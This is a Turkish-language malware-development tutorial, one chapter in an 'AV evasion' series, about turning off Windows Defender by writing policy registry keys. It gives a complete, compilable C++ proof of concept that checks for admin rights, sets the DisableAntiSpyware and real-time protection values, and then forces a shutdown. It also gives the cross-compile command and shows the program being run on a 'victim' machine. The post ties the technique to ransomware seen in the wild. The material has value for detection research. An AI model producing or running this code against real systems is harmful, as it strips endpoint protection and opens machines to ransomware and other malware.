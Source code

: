 \newpage
\subsection{60. Kötü amaçlı yazılım AV atlatma: bölüm 7. Windows Defender'ı devre dışı bırakma. Basit C++ örneği.}

﷽

![av](./images/57/2022-06-05_12-21.png){width="80%"}    

Bu gönderi, vahşi doğadaki kötü amaçlı yazılımlarda en yaygın kullanılan tekniklerden birinin kendi araştırılmalarımın sonucudur.    

### windows defender

Kötü amaçlı yazılımdan koruma yazılımı Windows Defender (şu anda Microsoft Defender Antivirus olarak biliniyor), bilgisayarınızı dış tehditlerden korur. Microsoft, `Windows 10` bilgisayarlarını virüs tehditlerinden korumak için bu antivirüsü geliştirdi.    

Bu antivirüs, tüm `Windows 10` sürümlerine önceden yüklenmiş olarak gelir.     

Kötü amaçlı yazılımlarını/araçlarını ve faaliyetlerini olası tespitlerden kaçınmak için, saldırganlar güvenlik araçlarını değiştirebilir veya devre dışı bırakabilir. örneğin, Windows Defender.    

### pratik örnek

Windows Defender Antivirüs'ü Windows kayıt defterini değiştirerek devre dışı bırakmayı deneyelim.Öncelikle, devre dışı bırakmanın yönetici hakları gerektirdiğini unutmamak önemlidir.Windows Defender Antivirüs etkin modda olduğunda, cihazın birincil antivirüs programı olarak hizmet eder. Tehditler düzeltilir ve tespit edilen tehditler, güvenlik raporlarında ve Windows Güvenlik uygulamasında listelenir.    

Tüm bunları devre dışı bırakmak için sadece kayıt defteri anahtarlarını değiştirmeniz yeterlidir:    

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
"SOFTWARE\\Policies\\Microsoft\\Windows Defender", 
0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

Ancak, daha önce belirttiğim gibi, bu yönetici hakları gerektirir, bu yüzden bunu kontrol eden bir fonksiyon oluşturuyoruz:    

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Windows Vista'dan bu yana, UAC (Kullanıcı Hesabı Denetimi), ayrıcalık yükseltme ile ilgili bazı riskleri azaltmak için kritik bir özellik olmuştur. UAC altında, yerel Yöneticiler grubu hesapları iki erişim belirtecine sahiptir: biri standart kullanıcı ayrıcalıklarıyla, diğeri yönetici ayrıcalıklarıyla. Tüm işlemler (Windows gezgini - `explorer.exe` dahil) standart belirteç kullanılarak başlatılır, bu da sürecin haklarını ve ayrıcalıklarını kısıtlar. Kullanıcı, *"Yönetici olarak çalıştır"* seçeneğini seçerek süreci yönetici ayrıcalıklarıyla çalıştırabilir.     

Bir komut dosyası veya çalıştırılabilir dosya, genellikle standart kullanıcı belirteciyle çalıştırılır, "Yönetici olarak çalıştır" komutu verilmediği sürece yükseltilmiş ayrıcalık modunda çalıştırılmaz. Bir geliştirici veya hacker olarak hangi modda çalıştığınızı anlamak önemlidir.     

Yani, Windows Defender'ı devre dışı bırakmak için tam PoC betiği şöyle bir şey:    

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, 
  &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, 
  KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, 
    REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 
    0, REG_OPTION_NON_VOLATILE, 
    KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\n");
  printf("press any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### demo

Her şeyi aksiyonda görelim. Öncelikle, Defender'ımızı kontrol edelim:     

![av](./images/57/2022-06-05_12-19.png){width="80%"}    

Ve kayıt defteri anahtarlarını inceleyelim:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](./images/57/2022-06-05_12-15.png){width="80%"}    

Gördüğünüz gibi, standart kayıt defteri anahtarlarımız var.    

Ardından, saldırganın makinesinde betiğimizi derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av](./images/57/2022-06-05_12-03.png){width="80%"}    

Ve kurbanın makinesinde çalıştıralım:    

```powershell
.\hack.exe
```

![av](./images/57/2022-06-05_12-17.png){width="80%"}    

Programın mantığına göre, makine kapanıyor. Sonra tekrar açıp kontrol ediyoruz:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](./images/57/2022-06-05_12-20.png){width="80%"}    

![av](./images/57/2022-06-05_12-20_1.png){width="80%"}    

Windows Defender Güvenlik Merkezi üzerinden de doğrulayalım:    

![av](./images/57/2022-06-05_12-22.png){width="80%"}    

![av](./images/57/2022-06-05_13-17.png){width="80%"}    

Gördüğünüz gibi, her şey mükemmel çalıştı!    

Ancak, bu teknik yeni değil. Günümüzde saldırganlar, güvenlik araçları tarafından dağıtılan ve kullanılan artefaktları değiştirebilir. Güvenlik ürünleri, veri toplamayı kolaylaştırmak için kendi modüllerini yükleyebilir ve/veya süreçler tarafından yüklenenleri değiştirebilir.    

Saldırganlar, bu araçlar tarafından eklenen özellikleri devre dışı bırakabilir veya değiştirebilir ve böylece tespitten kaçınabilir.   

Bu teknik, [Maze](https://attack.mitre.org/software/S0449/) ve [Pysa](https://attack.mitre.org/software/S0449/) fidye yazılımları tarafından vahşi doğada kullanılmıştır.

Bir sonraki bölümde, antivirüs sürecinin ayrıcalıklarını elinden alarak kötü amaçlı yazılım taramalarını nasıl engelleyebileceğimi araştıracağım.     

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[github'taki kaynak kod](https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7)    
